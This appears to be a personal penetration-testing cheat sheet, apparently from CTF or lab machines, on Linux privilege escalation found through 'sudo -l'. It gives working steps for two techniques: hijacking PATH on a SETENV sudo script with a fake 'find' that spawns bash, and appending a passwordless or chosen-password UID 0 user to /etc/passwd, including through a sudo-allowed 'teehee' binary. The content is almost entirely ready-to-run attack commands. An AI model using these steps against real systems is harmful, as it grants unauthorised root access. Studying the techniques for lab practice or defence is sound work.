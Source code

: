 # sudo -l 

## Case 1 - 

$sudo -l 

```Matching Defaults entries for wizard on pb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on pb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
-----------------------------------------------------

If we see a SETENV in that case we need to - 

    a. cat the file /opt/cleanup.sh
    b. see which command in that doesnot have an absolute path set
    c. In our case, find didn't have an absolute path set.
    d. make an executable file in /tmp named find.  -- echo "bash" > /tmp/find && chmod +x /tmp/find
    e. Now set the PATH environment variable to /tmp and also execute the cleanup.sh script to priv esc
        
         sudo PATH=/tmp:$PATH /opt/cleanup.sh

-----------------------------------------------------       

if you have read/write access to /etc/passwd you can:
    ```
    openssl passwd whateverPasswordYouWant
    echo "myUser:hashFromAboveCommand:0:0:root:/root:/bin/bash" >> /etc/passwd
    su myUser
    ```
         
## Case 2
```
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```
In this case this binary can be used to append text to a file
```
a. So we used the binary to add a root user to the /etc/password file with no password
        teehee -a /etc/passwd
       anindya:0:0:root:/root:/bin/bash

b. Then switch user to become root
        su anindya
```
